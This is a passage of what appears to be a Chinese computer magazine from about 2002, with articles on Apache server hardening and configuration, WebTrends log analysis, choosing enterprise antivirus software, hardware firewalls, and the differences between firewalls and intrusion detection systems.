- 4. 恶意的攻击者进行“拒绝服务”（DoS）攻击的安全缺陷

这是最新在 6 月 17 日发现的漏洞，它主要是存在于 Apache 的 chunk encoding 中，这是一个 HTTP 协议定义的用于接受 Web 用户所提交数据的功能。利用黑客程序可以对运行在 FreeBSD 4.5、OpenBSD 3.0/3.1、NetBSD 1.5.2 平台上的 Apache 服务器进行有效的攻击。

因此，使用最高和最新安全版本对于加强 Apache Web 服务器的安全是至关重要的。请广大 Apache 服务器管理员去 `http://www.apache.org/dist/httpd/` 下载补丁程序，以确保你的 Web 服务器的安全！

##### 三、正确维护和配置 Apache 服务器

虽然 Apache 服务器的开发者非常注重安全性，但由于 Apache 服务器具有庞大的项目，难免会存在安全隐患，因此，正确维护和配置 Apache Web 服务器就很重要。我们应注意如下的一些问题：

###### 1. Apache 服务器配置文件

Apache Web 服务器主要有三个配置文件，位于 `/usr/local/apache/conf` 目录下。这三个文件是：

- `httpd.conf` —— 主配置文件
- `srm.conf` —— 添加资源文件
- `access.conf` —— 设置文件的访问权限
- 注：具体配置可以参考 `http://httpd.apache.org/docs/mod/core.html`。

###### 2. Apache 服务器的日志文件

我们可以使用日志格式指令来控制日志文件的信息。使用 `LogFormat "%a %l"` 指令，可以把发出 HTTP 请求浏览器的 IP 地址和主机名记录到日志文件。出于安全的考虑，我们至少应知道哪些是验证失败的 Web 用户，在 `httpd.conf` 文件中加入 `LogFormat "%401u"` 指令可以实现这个目的。这个指令还有其它的一些参数，用户可以参考 Apache 的文档。另外，Apache 的错误日志文件对于系统管理员来说也是非常重要的，错误日志文件中包括服务器的启动、停止以及 CGI 执行失败等信息。更多信息请参看 Apache 日志系列 1-5。

###### 3. Apache 服务器的目录安全认证

在 Apache Server 中是允许使用 `.htaccess` 做目录安全保护的，欲读取保护的目录需要先键入正确的用户账号与密码。这样可作为专门管理网页存放的目录或作为会员区等。

在保护的目录里放置一个档案，档名为：`htaccess`：

```text
AuthName "会员专区"
AuthType "Basic"
AuthUserFile "/var/tmp/xxx.pw" -----> 把 password 放在网站外
require valid-user
```

到 `apache/bin` 目录，建 password 档：

```text
% ./htpasswd -c /var/tmp/xxx.pw username1
-----> 第一次建档要用参数 "-c"

% ./htpasswd /var/tmp/xxx.pw username2
```

这样就可以保护目录内的内容，进入要用合法的用户名和密码。

注：采用了 Apache 内附的模组。也可以采用在 `httpd.conf` 中加入：

```text
options indexes followsymlinks
allowoverride authconfig
order allow,deny
allow from all
```

###### 4. Apache 服务器访问控制

我们现在要看配置文件中的第三个文件了，即 `access.conf` 文件，它包含一些指令控制哪些用户可以访问 Apache 目录。应该把 `deny from all` 设为初始化指令，再使用 `allow from` 指令打开访问权限。

```text
<directory /usr/local/http/docs/private>
<limit>
order deny,allow
deny from all
allow from safechina.net
</limit>
</directory>
```

设置允许来自某个域、IP 地址或者 IP 段的访问。

###### 5. Apache 服务器的密码保护问题

我们再使用 `.htaccess` 文件把某个目录的访问权限赋予某个用户。系统管理员需要在 `httpd.conf` 或者 `srm.conf` 文件中使用 `AccessFileName` 指令打开目录的访问控制。如：

```text
AuthName PrivateFiles
AuthType Basic
AuthUserFile /path/to/httpd/users
require Phoenix

# htpasswd -c /path/to/httpd/users Phoenix
```

```text
AuthType Basic
AuthUserFile /etc/.usrpasswd
require valid-user
```

用 `# htpasswd -c /etc/.usrpasswd user1` 分别创建不同的允许访问 `/pub` 下文件服务的外部用户名和口令。

##### 四、设置 Apache 服务器的 Web 和文件服务器

我们在 Apache 服务器上存放 Web 服务器的文件供用户访问，并设置 `/home/ftp/pub` 目录为文件存放区域，用 `http://download.your.com/pub/` 来访问。在防火墙上设置 Apache 反向代理技术，由防火墙代理访问。

###### 1. Apache 服务器的设置

Apache 服务器采用默认配置。主目录为 `/home/httpd/html`，主机域名为 `Phoenix.your.com`，且别名到 `www.your.com` 中，并且设置 `srm.conf` 加一行别名定义如下：

```text
Alias /pub /home/ftp/pub/
```

更改默认应用程序类型定义如下：

```text
DefaultType application/octet-stream
```

最后，在 `/etc/httpd/conf/access.conf` 中增加一项定义：

```text
Options Indexes
AllowOverride AuthConfig
order allow,deny
allow from all
```

注：`Options Indexes` 允许在找不到 `index.html` 文件的情况下列出目录/文件列表。`AllowOverride AuthConfig` 允许做基本的用户名和口令验证。这样的话，需要在 `/home/ftp/pub` 目录下放入 `.htaccess`，内容如下：

```text
[root@shopu pub]# more .htaccess
AuthName Branch Office Public Software Download Area
```

###### 2. 在防火墙上配置反向代理技术

在 `/etc/httpd/conf/httpd.conf` 中加入 `NameVirtualHost xxx.xxx.xxx.xxx:`：

```text
# xxx.xxx.xxx.xxx ------> 是防火墙外部在互联网上永久 IP 地址
servername www.your.com
errorlog /var/log/httpd/error_log
transferlog /var/log/httpd/access_log
rewriteengine on
proxyrequests off
usecanonicalname off
rewriterule ^/(.*)$ http://xxx.xxx.xxx.xxx/$1 [P,L]
------> Apache 服务器的 IP 地址
servername http://download.your.com/pub/
errorlog /var/log/httpd/download/error_log
transferlog /var/log/httpd/download/access_log
rewriteengine on
proxyrequests off
usecanonicalname off
rewriterule ^/(.*)$ http://xxx.xxx.xx.x/$1 [P,L]
------> 同上 Apache 服务器的 IP 地址。
```

设置防火墙上的 DNS，让 `download.your.com` 和 `www.your.com` 都指向防火墙的外部网地址 `xxx.xxx.xxx.xxx`。用 `http://www.your.com` 访问主页，用 `http://download.your.com/pub/` 访问公共文件的下载区。

注：还需要在 Apache 服务器主机上建立目录 `var/log/httpd/download/`，否则会出错。另外，也可以设置防火墙主机上的 `/home/httpd/html/index.html` 的属性为 750 来阻止访问，这是防止外部用户能访问到防火墙上的 Apache 服务器的 `http://www.your.com`。

总结：Apache Server 是一个非常优秀、非常棒的服务器，只要你正确配置和维护好 Apache 服务器，你就会感受到 Apache Server 所带来的好处。同样希望你能够通过阅读本文达到理论和实践双丰收的目的。

#### WebTrends Enterprise Suite 分析

### Web系统日志的强大工具


WebTrends Enterprise Suite 是面向电子商务及大型站点的软件包，它具有 Web 服务器日志分析、Proxy 服务器日志分析、链接分析、IP 设备监视器、流媒体服务器分析、支持 Web 服务器群、与数据库相连等功能。

##### 主页访问率分析：Web 服务器日志分析

自动检测出 Web 服务器和日志文件的种类，输出“主页访问率分析”的报告。可以识别几乎所有的常用日志文件的格式，不需要特殊设定。对被访次数多的网页以及用户 Profile 文件等，用简单明了的图表形式表示，可有效利用为市场活动的资料或开发有魅力的 Web 站点的资料。

##### Intranet 管理：Proxy 服务器日志分析

分析 Intranet 的使用趋势和用户的上网情况。可自动检测出 Oracle、Microsoft、Netscape、Novell、BorderWare 等的 Proxy 服务器。

##### 内容管理：链接分析和质量管理

可以使用 Site Manager 直观地显示 Web 站点的构成。此外，可报告 Web 站点的品质、访问速度和完整性，能够报告有连接阻碍或访问上花时间的网页等，这样便可得到制作更好的网页的关键材料。

##### 流媒体服务器日志分析

分析音响、录像、动画片等 Internet 上使用的流媒体服务器的日志，并制作媒体流的收视率报告；支持 Real Server、Microsoft Windows Media Server。

##### 支持 Web 服务器群

通过 Cluster Trends 技术，支持使用负载平衡的 Web 服务器集群，将被多个服务器的日志分割开来的用户会话精确地归纳到一起，并进行分析；可分析各服务器的访问数、负荷率，并作成图表，有利于信息量的管理。

### 与大型数据库的连用

通过连接数据库与 Web 服务器的日志，可报告会员的上网情况，作为市场资料、营业资料加以利用；通过 DBTrends 技术，与高档数据库（Oracle、Microsoft SQL Server、Sybase、Informix）相连，可在“前几位用户”、“前几位认证用户”的报告中，反映访问者住址、公司名称、电话号码、邮箱地址等数据库中的个人信息。此外，还可向数据库输出 WebTrends 的分析报告。

##### 运行管理：IP 设备监视器

监视所有的 IP 设备和 NT 服务，当设备发生故障、停止应答时，将用电子邮件或报警声通知，或自动执行恢复处理；还可报告各设备的运行情况。

制作一个企业级 Web 站点的工作看上去非常简单：找一套 Web 服务器软件的免费拷贝，再加上你所需要的内容，然后就可以坐享其成了。然而现实却并非这么令人轻松，今天的 Web 站点可能会向你的后台数据库发送大量的日志文件，而对这些日志文件进行的综合性分析工作的复杂性往往超出了你的想像能力。我知道一些大型站点的 IIS 日志每天都会在几百兆，有的甚至会在 1G 以上，想用手工来分析查看这些内容是根本不可行的，甚至根本没有什么软件可以去打开这么大的日志文件。通过使用专门日志分析软件，你可以对你站点的来访者的信息进行跟踪、存储和报告。在你现有的数据库的基础上，你可以为不同的来访者定制不同的在线服务，以便于你了解哪些访问者因喜爱你的站点风格而再次访问了你的站点。对于 Web 站点的统计结果来说，日志文件中和点击计数器里有关站点的信息，每天都在增长，你是否能够有效地利用这些信息，取决于你如何来对它们进行分析。

信息系统主管们渴望了解用户访问了哪些页面、在这些页面上停留了多长时间以及他们点击了页面上的哪一处，并希望收集页面上广告的点击情况。站点日志分析工具通过整理 Web 服务器上的日志文件来告诉你在你的网址上发生过什么，并且所言一般较为可靠。一个好的 Web 站点管理工具，或者说得更准确些，一个日志内容分析器应该能够在访问者发现问题之前将 Web 站点上的故障排除掉。通过减少链接断开故障和用户的下载时间，你可以使访问者顺畅无阻地尽情浏览你的 Web 站点，而这也许会给你带来丰厚的回报。

启动 WebTrends Enterprise Suite 后，首先选择建立一个新的 Web 日志的配置文件（图1）。


首先程序会问你要分析的日志文件是否在本地的系统上，即是同一物理主机上，我要分析的日志就保存在本地，所以就选择第一项了（图2），WebTrends Enterprise Suite 也支持远程分析系统的 Web 日志。


好的，下面我们就可以去选择我们要分析的日志具体文件了。默认情况下程序会自动判断日志文件的类型，WebTrends Enterprise Suite 其实不仅仅可以分析 IIS 的日志文件，它实际支持的文件类型非常多，包括有 Apache、Stronghold、NCSA、Netscape Commerce Server、Netscape Communications Server、Netscape FastTrack、Netscape Enterprise、CERN、Microsoft IIS、WebSite、WebSitePro、Purveyor、WebStar、NaviServer、Internet Factory、Oracle、EMWAC、Open-Market、GoServe、Spry、Lotus Domino、Zeus、JavaWebServer、ZBServer、Gosite-SSL、IBM、Alibaba、Web Commander、OmniHTTPd、Best、NCSA Proxy、Netscape Proxy、Novell BorderWare、Microsoft Proxy、Microsoft Winsock、Oracle Proxy、Squid、Net Appliance 等等。

选择目录找到要分析的日志文件（图3）。


当然有的时候我们想分析的日志可能不是一天的，而是全部 LOG 目录里的日志或是一段时间的日志文件，WebTrends Enterprise Suite 同样是支持分析多天的日志文件。

##### 选择 Date Macro 按钮

将 LOG 日志文件的目录指向系统的 IIS 默认存放日志文件的目录（图4）。

确定以后程序会自动去搜索当前目录下的所有 IIS 的日志文件，并把它们添加到待分析的日志列表中。

分析日志文件设置好了以后，就可以双击我们设置好的项目文件，你可以直接选择 START 开始分析，也可以对即将产生的报表文件再做一些配置（图5）。


图 4


图 5

一切设置好了以后我们就可以让 WebTrends Enterprise Suite 自动地去帮我们分析日志文件。程序每分钟可处理 10～30MB 的日志，分析超过 10GB（4000 万点击）的日志。

WebTrends Enterprise Suite 分析后出来的报表是非常漂亮的，用了很多图表来说明问题，我非常喜欢，里面说明和分析的项目非常非常多，只有使用者在自己使用过程中才能慢慢体会。

WebTrends Enterprise Suite 的最大优点便是其易用性。从安装软件到生成报告，该软件使得日志分析工作变得非常简单。WebTrends Enterprise Suite 是功能完备精巧的日志分析软件，很少因实际环境而产生问题。在它生成的报告中包含有诸如页面 HTML 语法错误以及一般的站点改进意见等大量极具价值的信息。它还可以依你的爱好而生成不同风格的报告，并支持对后台数据库信息的访问，这些都进一步丰富了它的功能。

文章里我只是介绍了程序第一部分的功能，即如何去分析一个 IIS 的日志文件并得出报告。其实大家在使用中可以发现这个程序的功能实在是强大，还有很多非常优秀的功能等待大家的发掘使用。

默认情况下，WebTrends Enterprise Suite 报表是用 HTML 文件的形式来保存的，你也可以实时地或根据需要输出 5 种格式（HTML、Microsoft Word、Microsoft Excel、文本、CSV）的访问情况分析报告，备有 70 种以上的图表，可使用组合了上述项目的 32 种模板。制作好的报告可保存在局域网硬盘中，或 FTP 上传，或用 MAPI 及 SMTP 发送电子邮件。

你可以对报告中的详细项目做一个配置，选择自己需要查看的项目（图6）。


图 6

> **上接（94页）**
>
> 用户对网络的访问控制。这时，防火墙还要对每个用户重新验证。这种附加的负担对用户来说是存在的。单独的 VPN 设备和防火墙并不能共享用户信息。
>
> （4）复杂的网络配置。就像上节例子一样，这种配置方式也需要网关支持 NAT 功能。即便提供这种功能，也并不表示对所有的 VPN 用户的访问应用都支持。一些交互式的应用，如 NetMeeting 和 CU-SeeMe，需要真实的 IP（而不是转换后的）以便给服务请求者回应。由于单独的 VPN 网关不支持这种应用，可能会发生这样的情形：当一个用户需要 NetMeeting 连接时，他首先从 ISP 那里动态获取一个 IP 地址；当被路由到 VPN 网关时，这个“真实”的 IP 被转换为内部地址，但对 NetMeeting 这种应用来说，需要“真实”的 IP，因此，内部的服务器向目的地址为 VPN 用户的“真实”IP 地址回应。缺省网关在这种情况下是防火墙，看到目的地是 Internet 地址，便会直接将数据包转发出去，而不是将数据包发给 VPN 网关进行加密，因此发生错误。

### 在网络环境下杀毒

#### 须考虑的几大需求


文／杨书琴

一年多来网络病毒泛滥，像“Happy Time”、“Funlove”、“红色代码”、“Nimda”、“求职信”、“中国黑客”等等，确实使不少人大受其害，遭到的损失尤为严重。主要原因还是网络杀毒比较麻烦，很多时候并没有完全将病毒清除，使得病毒短期内又迅速蔓延。那么，在网络环境中杀毒到底需要注意什么？

面对日益复杂多变的企业网络应用环境，要想真正获得预期的整体病毒防范效果，就需要网络管理人员从几个不同的角度，针对所管理的网络环境和反病毒需求进行分析和定位，最终才有可能达成比较好的结果。

#### 需求一：要符合本地化的需求

再简单的企业级应用网络，也存在着网络拓扑结构上的不确定因素。而所有诸如无法停机、在某些时间段内无法连接到服务器上等，涉及到具体企业内部业务流程的操作流程问题，都有可能最终成为在网络杀毒过程中影响全局安全的隐患。因此，要从根本上解决企业内部的病毒侵害问题，首要的任务就是根据当前的网络拓扑结构和业务流程，明确标示出所有的安全隐患和可能的不确定因素。

有鉴于此，在企业级杀毒软件选型阶段，杀毒产品的制造商是否能提供足够强有力的专家意见，以及针对特定网络拓扑结构的契合性解决方案，就是一个十分重要的衡量标准。在这个方面，目前市面上流行的各种企业级杀毒软件所能提供的解决方案和支持存在一定的问题。比如，国外杀毒企业的网络产品的开发均非专门针对国内企业的网络应用环境出发，因此，很难做出个性化的解决方案。相对来说，国内的企业由于具备本土化的优势，加之产品技术和服务意识的不断加强，在售前的咨询服务中已经突显了本土企业的竞争力。

#### 需求二：要易用并可定制

专家的咨询意见对于企业自身网络的定制固然十分重要，但杀毒厂商的专家不可能永远跟随在企业用户的左右。企业随着业务规模的增长，其内部网络体系的复杂程度和规模也会不断提升。因此要求杀毒产品首先要具有很强的易用性，以便企业内部的员工不需要专业的电脑技术知识，也可以方便地使用；其次，就是要具有足够的可定制性，很好地满足企业在网络应用上的不断变化。后一点评尤为重要，为了保证企业的网络安全，网管员需要随时对单机、局域网等进行实时监控，并能及时发现病毒并进行防堵。比如瑞星网络版就针对企业内部网络安全的不同需求，提供单机查杀、子网查杀或全网查杀的定制功能。

企业级杀毒软件的易用性来自两个方面，一是在终端电脑上，可以非常简便地自动安装和升级；另一方面，对于网络管理人员来说，是否能针对所有网络上、物理上并不在一个地点的所有终端进行有效的管理和协调，在很大程度上决定了杀毒软件究竟能够发挥多大作用。

毫无疑问，国内刚刚起步的企业级杀毒软件市场上，真正能够在上述诸多方面都达到一定水准的产品，直到 2001 年中期都还是一个空白。但经过杀毒企业与软件技术开发人员的不懈努力，企业级产品无论是技术还是应用方案都取得了长足的进步。仅以瑞星为例，其 2001 版的企业级杀毒软件虽然能够满足绝大多数用户的要求，但在应对大型复杂网络拓扑环境方面，仍显不足。随着技术的不断进步，“多中心体系”下的授权管理和自动同步升级以及一系列远程管理方面的技术突破，使得新一代的瑞星 2002 企业版杀毒系列产品达到了可以对国际同类产品进行全面挑战的高度。虽然目前还没有第二家国内的同类产品达到这样的程度，但相信随着时间的推移，国内相关产品的整体素质都会有长足的进步。

#### 需求三：技术、服务要可靠

杀毒不是一蹴而就的事情，因此，不间断的技术支持和服务在某种程度上甚至比杀毒软件产品本身还要重要。这种重要性在于服务本身和杀毒过程一样，也必须是长期性和可靠性的。换言之，病毒的出现或许没有规律，但厂家技术的支持和服务却必须要有严格的可靠性要求和长期的持续性。因此，从这个角度看，选择技术服务中心距离自己最近的、企业实力最强的、服务企业种类和数量成规模的厂家的产品，不失为相对而言最可靠的选择。

熟悉软件工程的网络管理员都知道，要开发一个好的软件产品固然需要投入巨大的人力和资金，而要在一个相对比较漫长的时间段内，始终坚持对一个产品的周期性——每周至少升级一次、7×24 小时的专家咨询服务、全国范围快速反应，其所需要的资金投入和人员储备，就绝对不是一般的软件公司可以承受的了。

目前，国内市场的相关产品中具有真正意义上的技术支持中心的，无一例外都是国内企业。仅瑞星公司就在全国建有 12 个办事处、800 电话咨询、24 小时全天候电话技术支持、软件升级、硬盘数据拯救、客户俱乐部、瑞星网站、信息安全培训认证等服务项目。目前，瑞星已经构建起目前国内分布最为广泛、服务项目最多的反病毒服务网络，基本完成了区域服务、电话服务、Internet 服务与实时服务的全程跟踪式立体化服务架构。

#### 需求四：技术要有延展性

杀毒是一件技术活，厂商自身所掌握电脑最新技术的数量和研发能力，实际上决定了其产品的可用性究竟有多大。而作为使用者，企业的网络管理人员不仅需要尽可能及时地了解与病毒相关的信息，所有可能涉及到病毒发作和泛滥的周边信息也需要不断地进行接触和了解。因此，杀毒软件厂商的自主研发能力和技术储备，就是维持这种技术信息延展性的最好保障。

对于网络管理员而言，及时获取病毒信息并了解病毒发作特征和解决方法是十分必要的。相对于反应速度迟缓的杀毒企业来说，选用具有完全自主知识产权内核代码的杀毒软件产品，可以使企业的网络安全得到最大限度的保障。

#### 需求五：升级要流畅

杀毒软件的升级是十分频繁的，因此，升级本身对于杀毒软件，尤其是企业级杀毒软件来说，基本不构成问题。而杀毒软件一般每年度一次的大版本升级，就是一个很严重的问题了。毕竟这是一个涉及到整个企业所有运行终端的大事，一旦升级过程不能流畅完成，所造成的影响恐怕就不仅仅只是几台终端而已了。

同时，大型版本的升级都会伴随很多的技术和功能的改进与添加，如何尽快让相关的网络管理人员获得必要、全面的培训，就成为升级过程中的一个大问题。其实，这个问题在日常的小版本升级中也不同程度地存在，所以厂商的培训密度安排就是一个需要关注的要点。为了扩展企业服务内容，提升企业服务质量，瑞星公司已于 5 月 11 日开始，针对网络管理员等特定人群提供个性化的培训课程，并且在考试检验合格后，给予瑞星公司颁发的信息安全工程师等认证证书。在此，网络管理员一方面享受到了杀毒企业的增值服务，另一方面也提高了网络信息安全的防范能力与防范意识。

综上所述，选择合适的企业级杀毒软件，在相当程度上不仅取决于产品本身，也更多地与厂商的实力和技术以及专业服务程度有关，因此，综合考察一个杀毒软件企业的整体实力，可以确定其产品究竟能在怎样的程度上满足企业的需求，这也是企业网络管理人员必须完成的一项工作。

> **上接 27 页**
>
> 较低。第三代防火墙其实就是将通常意义上的软件防火墙安装在一个工业标准化的服务器上，通过软、硬件结合成为一个完整的防火墙解决方案，所以我们把这种防火墙叫做标准服务器防火墙。它最大的特点就是具有软件防火墙与硬件防火墙的双重优点，既保证了运行速度，又可方便升级，满足用户的需要。这类产品代表着现代防火墙产品的发展方向。近日，Checkpoint 的总裁称，作为一个基于提供软件服务为主的 Nokia 的硬件厂商的合作，将提供更好的网络安全服务。这样的合作，无疑也印证了网络安全产品软硬结合的新发展趋势。

### 防火墙须知

#### 软硬一体


文／张亚鸣

防火墙想必大家都不陌生，个人防火墙的应用已经很普遍，软件防火墙、硬件防火墙也听过不少，那么不妨听听本文作者的观点。

Internet 的发展带来了革命性的改革和开放，企业正努力通过它来提高市场反应速度和办事效率，以便更具竞争力。企业通过 Internet，可以从异地取回重要数据，同时又要面对 Internet 开放带来的数据安全的新挑战和新危险，即客户、销售商、移动用户、异地员工和内部员工的安全访问，以及保护企业的机密信息不受黑客和工业间谍的入侵。当你的公司连接到没有任何安全措施的因特网时，你就暴露在其他因特网服务器的攻击下，不仅你的局域网对非授权访问来说是脆弱的，而且局域网中的其他服务器也将面临同样的问题。当计划如何保护你的局域网免受因特网攻击带来的危害时，应该首先想到防火墙。

防火墙（Firewall）一词，在网络术语中是指一种软件，它可以在用户的计算机和 Internet 之间建立起一道屏障（Wall），把用户和网络隔离开来；用户可以通过对它的各种规则设置，使得合法的链路得以建立，而非法的连接将被禁止；同时通过各种手段屏蔽掉用户的隐私信息，以保障用户对网络访问的安全。虽然防火墙已经从第一代发展到现在的第五代，但按照防火墙对内外来往数据的处理方法，无非是两大体系：包过滤防火墙和代理防火墙（应用层网关防火墙）。使用防火墙可以保护敏感的数据不被窃取和篡改，这些防火墙是由先进的计算机硬件或软件系统构成的。

网络安全的现有市场规模及发展潜力非常可观，吸引了众多厂商的目光，成为网络界关注的热点。在网络安全产品市场中，增长最快的是防火墙产品。防火墙作为网络安全体系的基础设备，其作用是切断受控网络的通信主干线，对通过受控干线的任何通信，进行安全处理。目前防火墙主要有包过滤、应用网关、服务代理和状态检测等几种类型，以包过滤型防火墙最为普遍。

对于行业用户而言，防火墙产品的需求目前是以防火墙硬件设备产品为主。主要集中在金融、电信、IT 业、政府及一些大的制造业，这些行业信息化程度较高，网络安全意识较强，而且资金较为充足。现在的用户们，除希望防火墙产品具有一般的防护功能外，还能提供其他网络连接时的应用，例如包含防病毒、入侵检测系统、认证加密、远程管理、代理服务器功能等，最好具有相当的网络性能，提高内部网络对外访问的速度；在连接加密上，采用不同方式的加密连接，使内部网通过外部网安全地传输数据；安全检测方面，可以在短时间内追踪不良访问者的 IP 地址等。这些功能需求会成为今后的总体走势。

以诺基亚安全平台为例，它集成了防火墙、入侵检测和防病毒，应该说有了这三种防范措施的网络算得上是一个安全的网络了。再加上入侵检测和防火墙的联动，使得黑客无从下手。该平台同时又提供了小型、中型到电信级的产品，适合不同等级的用户。例如，IP51 就适合 5～10 个用户的小型办公室使用，IP440 则适合 200 个用户的中大型企业的使用，IP740 2GB 的传输速度则更是业界性能出众的适合于电信等级用户使用的防火墙。在世界 500 强公司中，IBM、空中客车、罗氏制药、BP 石油等大公司都很重视防火墙的架构，在全球都部署了 IP 网络安全平台。在国内，中国电信、中国移动、中国联通、中国教育网等电信级运营商也在安全应用上层级很高。

可见，现代的防火墙已经不是过去简单的软件问题，而是架构在硬件上事关安全大计的复杂问题。目前，防火墙和 VPN 产品已经发展到了第三代。即早已经走过了第一代纯软件产品时代和第二代基于 PC 的产品，取而代之的，第三代则是基于硬件的产品。因为纯软件的防火墙产品，运行速度较慢，而硬件防火墙，虽然速度方面优于纯软件防火墙，但升级比较困难。对于现今快速发展的互联网及拓扑结构日渐复杂的方面来讲，实用性

（下转 26 页）

### 防火墙与入侵检测系统的区别

文／NetEye Support Team 姚伟栋

我们介绍的关于防火墙和 IDS 的文章已经不少，但是还没有一篇纯粹是比较二者不同之处的文章。为了让大家弄清这两个概念，我们专门请作者撰写了此文。

网络信息安全工程涉及到多种技术和设备，如防火墙、入侵检测、虚拟专用网、CA 认证、网络物理隔离、网络安全评估以及网络防杀病毒系统等。其中，产品化最早、技术最成熟的当数防火墙设备，而入侵检测系统则是最近几年才逐渐风行起来的、作为防火墙有益补充而出现的网络第二道防线产品。

很多人对防火墙与入侵检测系统的区别不是很清楚，希望通过本文的介绍，使大家对防火墙与入侵检测系统有更清晰的认识，在选购的时候能够针对自己的需求“有的放矢”。

#### 一、防火墙与入侵检测系统的工作原理

##### 1. 防火墙系统

防火墙最根本的功能是确保网络流量的合法性，并在此前提下将网络流量快速地从一条链路转发到另外的链路上去。从最早的防火墙模型开始说起，原始的防火墙是一台双穴主机，即具备两个网络接口，同时拥有两个网络层地址。防火墙将网络上的流量通过相应的网络接口接收上来，按照 TCP/IP 协议栈的七层结构顺序上传，在适当的协议层进行访问规则和安全审查，然后将符合条件的报文从相应的网络接口送出，而对于那些不符合通过条件的报文则予以阻断。

因此，从这个角度上来说，防火墙是一个类似于桥接或路由器的多端口的（网络接口 >= 2）转发设备，它跨接于多个分离的物理网段之间，并在报文转发过程之中完成对报文的审查工作。图例说明请参见图 1。


图 1 防火墙的原理流程

##### 2. 入侵检测系统

入侵检测是防火墙的合理补充，帮助系统快速发现网络攻击的发生，扩展系统管理员的安全管理能力（包括安全审计、监视、攻击识别和响应），提高了信息安全基础结构的完整性。它从计算机网络系统中的若干关键点收集信息，并分析这些信息，看看网络中是否有违反安全策略的行为和遭到袭击的迹象。入侵检测被认为是防火墙之后的第二道安全闸门，在不影响网络性能的情况下对网络进行监听，从而提供对内部攻击、外部攻击和误操作的实时保护。

在本质上，入侵检测系统是一个典型的“窥探设备”。它不跨接多个物理网段（通常只有一个监听端口），无须转发任何流量，而只需要在网络上被动地、无声息地收集它所关心的报文即可。在收集上来的报文基础上，入侵检测系统提取相应的流量统计特征值，并利用内置的入侵知识库，与这些流量特征进行智能分析、比较匹配。根据预设的阈值，匹配耦合度较高的报文流量将被认为是攻击，入侵检测系统将根据相应的配置进行报警或进行有限度的反击。入侵检测系统的原理模型如图 2 所示。


图 2 入侵检测系统通过监听获得网络链路上流量的拷贝

入侵检测系统的工作流程大致分为以下几个步骤：

- 1. 信息收集

入侵检测的第一步是信息收集，内容包括网络流量的内容、用户连接活动的状态和行为。

- 2. 信号分析

对上述收集到的信息，一般通过三种技术手段进行分析：模式匹配、统计分析和完整性分析。其中前两种方法用于实时的入侵检测，而完整性分析则用于事后分析。

- 模式匹配

模式匹配就是将收集到的信息与已知的网络入侵和系统误用模式数据库进行比较，从而发现违反安全策略的行为。该过程可以很简单（如通过字符串匹配以寻找一个简单的条目或指令），也可以很复杂（如利用正规的数学表达式来表示安全状态的变化）。一般来讲，一种攻击模式可以用一个过程（如执行一条指令）或一个输出（如获得权限）来表示。该方法的一大优点是只须收集相关的数据集合，显著减少系统负担，且技术已相当成熟。它与病毒防火墙采用的方法一样，检测准确率和效率都相当高。但是，该方法存在的弱点是需要不断地升级以对付不断出现的黑客攻击手法，不能检测到从未出现过的黑客攻击手段。

- 统计分析

统计分析方法首先给信息对象（如用户、连接、文件、目录和设备等）创建一个统计描述，统计正常使用时的一些测量属性（如访问次数、操作失败次数和延时等）。测量属性的平均值将被用来与网络、系统的行为进行比较，任何观察值在正常偏差之外时，就认为有入侵发生。例如，统计分析可能标识一个不正常行为，因为它发现一个在晚 8 点至早 6 点不登录的账户却在凌晨 2 点试图登录。其优点是可检测到未知的入侵和更为复杂的入侵，缺点是误报、漏报率高，且不适应用户正常行为的突然改变。具体的统计分析方法，如基于专家系统的、基于模型推理的和基于神经网络的分析方法，目前正处于研究热点和迅速发展之中。

- 完整性分析

完整性分析主要关注某个文件或对象是否被更改，这经常包括文件和目录的内容及属性，它在发现被更改的、被特洛伊化的应用程序方面特别有效。完整性分析利用强有力的加密机制，称为消息摘要函数（例如 MD5），它能识别哪怕是微小的变化，其优点是不管模式匹配方法和统计分析方法能否发现入侵，只要是成功的攻击导致了文件或其他对象的任何改变，它都能够发现。缺点是一般以批处理方式实现，不用于实时响应。这种方式主要应用于基于主机的入侵检测系统（HIDS）。

- 3. 实时记录、报警或有限度反击

IDS 根本的任务是要对入侵行为作出适当的反应，这些反应包括详细日志记录、实时报警和有限度的反击攻击源。

#### 二、防火墙与 IDS 在功能上的互补

如上所述，防火墙是一个跨接多个物理网段的报文转发设备，因此它如同一个关守一样，可以对所有流经它的流量进行各种各样最直接的操作处理，如无通告拒绝、ICMP 拒绝、转发通过（可转发至任何端口）、各层报头检查修改、各层报文内容检查修改、链路带宽资源管理、流量统计、访问日志记录、协议转换等。

由于网络入侵检测系统（IDS）不必为它所连接的链路转发业务流量，所以，IDS 可以把大部分的系统资源用于对采集报文的分析，这正是 IDS 最眩目的亮点。IDS 通过独特的数据收集功能，将网段上的流量全部（或有选择地）收集上来，然后在此基础上进行协议恢复、内容分析等基本操作。通过这些操作，IDS 可以轻易做到很多有益的工作，如入侵活动报警、不同业务类别的网络流量统计、网络多种流量协议恢复（实时监控功能）。IDS 高智能的数据分析技术、详尽的入侵知识描述库可以提供比防火墙更准确、更严格、更全面的访问行为审查功能。

防火墙与入侵检测系统的异同点总结如表 1 所示。

##### 表 1 防火墙与入侵检测系统的功能比较

| 项目 | 防火墙 | 入侵检测系统 |
|---|---|---|
| 设备类型 | 多穴主机，数据转发设备，完成类似于交换机或路由器的功能 | 一般单接口，数据采集、分析设备 |
| 流量处理机制 | 过滤 | 监听、分析 |
| 对受检报文的操作 | 大量的读写操作，需要修改各层报文的头或内容 | 无处理，只作简单的拷贝，不修改原来的报文 |
| 对链路速度的影响 | 取决于防火墙的转发延迟 | IDS 是旁路设备，丝毫不影响原有链路的速度 |
| 可附加模块 | 可实现网络层以上加密、应用层病毒检测、杀毒功能 | 不能实现加密、杀毒功能，但可实现病毒检测功能 |
| 对入侵行为的处理 | 拒绝、报警、日志记录 | 报警、日志记录和有限度反击 |
| 入侵检测的准确性 | 迫于流量转发负载的压力，只对流量作普遍检查，有可能发生漏报、误报现象 | 除了检测以外，没有任何业务负担，而且庞大、详尽的入侵知识库可以提供非常准确的判断识别，漏报误报率大大低于防火墙 |
| 对访问日志的记录 | 只作条目式记录，框架较粗 | 非常详细，包括访问的资源、报文内容 |
| 设备稳定性对网络的影响 | 要求非常高，否则可能造成网络链路的阻断 | 无论 IDS 工作与否，都不会影响网络的连通性和稳定性 |
| 应用层内容恢复 | 一般不提供应用层的内容恢复，但可以据此进行过滤和替换功能 | 能够完全恢复出应用层的信息，能够对网络特定的流量进行全程监视、记录，为管理员判断过滤、收集证据提供了强有力的手段 |
